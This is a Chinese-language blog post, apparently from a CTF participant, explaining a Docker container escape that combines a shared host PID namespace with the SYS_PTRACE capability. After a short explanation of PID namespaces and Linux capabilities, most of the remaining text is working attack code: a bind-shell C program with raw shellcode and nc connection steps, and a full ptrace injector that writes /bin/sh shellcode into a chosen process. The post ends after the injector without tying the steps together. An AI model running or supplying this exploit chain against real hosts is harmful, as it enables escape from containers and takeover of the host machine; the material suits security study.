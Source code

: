 ```yaml
---
title: 说好的隔离呢？Docker宿主机尽然被黑！
date: 2021-04-25 19:55:04
tags:
---
```


年初我和部门内的几个同事参加了公司内部的黑客CTF比赛。在比赛中，我学到了很多有意思的信息安全相关的知识。其中有些Docker容器相关的漏洞给我留下了深刻的印象。

今天，我和大家分享的一个漏洞就是由于启动容器时共享了宿主机的PID空间，再加上赋予了容器sys_ptrace capacitiy，从而导致黑客可以从容器环境黑掉宿主机。

# PID namespace

默认情况下，Docker容器都有自己的进程命名空间（PID namespace）。

在进程的命名空间里，容器是看不到内核系统进程和宿主机上的进程，而且容器里可以重复使用宿主机上的已经被用到的PID，所以容器里的进程可以有PID 1之类的进程ID。

但是在某些情况下，我们可能希望容器和宿主机共享进程空间。也就是说我们希望在容器里可以看到宿主机上运行的进程，这样我们就能在容器里用一些调试工具比如strace或gdb来调试宿主机上的进程。

所以，docker run提供了`--pid`选项。

比如，我们用默认选项启动一个Docker容器并运行ps命令，我们只能看到一个PID为1的进程，因为这个容器有他自己的的进程命名空间。

```bash
$ docker run -it --rm ubuntu ps -aef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  6 10:33 pts/0    00:00:00 ps -aef
```

如果我们用`--pid=host`选项启动容器，那我们就能在容器里看到宿主机上的进程
```bash
docker run -it --pid=host --rm ubuntu  ps -aef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  1 10:28 ?        00:00:08 /sbin/init splash
root         2     0  0 10:28 ?        00:00:00 [kthreadd]
root         3     2  0 10:28 ?        00:00:00 [rcu_gp]
root         4     2  0 10:28 ?        00:00:00 [rcu_par_gp]
...
root      3547  1129 24 10:37 pts/0    00:00:00 docker run -it --pid=host --rm u
root      3584     1  6 10:37 ?        00:00:00 /usr/bin/containerd-shim-runc-v2
root      3607  3584 14 10:37 pts/0    00:00:00 ps -aef
```

`--pid=host`打破了容器进程和宿主机进程间的壁垒，这就构成了该漏洞的第一个条件。

https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work

https://man7.org/linux/man-pages/man7/capabilities.7.html

https://blog.container-solutions.com/linux-capabilities-in-practice

# Linux capabilities

传统Unix系统进程权限管理方法，把进程分为privileged processes (whose effective user ID is 0, referred to
       as superuser or root), and unprivileged processes。简单说privileged processes拥有所有的超级权限，而普通进程则没有。

后来为了细粒度地管理这些超级权限，Linux系统把各种进程的特权划分为各种独立的capabilities。这样我们可以给进程他需要的部分特权，而不是要么都给要么一个都不给。

Docker运行容器的时候会默认给容器某些capability，我们也可以利用--cap-add and --cap-drop来增减给与容器的capability。

默认情况下，容器没有CAP_SYS_PTRACE capability。也就是说容器里是无法用ptrace系统调用来attach到一个进程来进行debug的。

```
strace -p 5202
strace: Could not attach to process. If your uid matches the uid of the target process, check the setting of /proc/sys/kernel/yama/ptrace_scope, or try again as the root user. For more details, see /etc/sysctl.d/10-ptrace.conf: Operation not permitted
strace: attach: ptrace(PTRACE_SEIZE, 5202): Operation not permitted
```

但是如果我们用·--cap-add=SYS_PTRACE· 赋予了容器这个capability后，容器里就可以用ptrace attach到进程上进行调试了。

如果我们同时用-pid=host来共享进程空间。那容器里就可以attach到宿主机的进程了。
`docker run -it --pid=host --cap-add=SYS_PTRACE --rm ubuntu`

bind shell

```
How To Run

$ gcc -o bind_shell bind_shell.c
$ execstack -s bind_shell
$ ./bind_shell

How to Connect

$ nc <HOST IP ADDRESS> 5600

Eg:

$ nc 127.0.0.1 5600

---------------------------------------------------------------------------------------------------
*/
#include <stdio.h>
char sh[]="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
void main(int argc, char **argv)
{
	int (*func)();
	func = (int (*)()) sh;
	(int)(*func)();
}```




```/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

unsigned char *shellcode =
  "\x48\x31\xc0\x48\x89\xc2\x48\x89"
  "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
  "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
  "\x2f\x73\x68\x00\xcc\x90\x90\x90";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }


  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");


  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;
```


https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c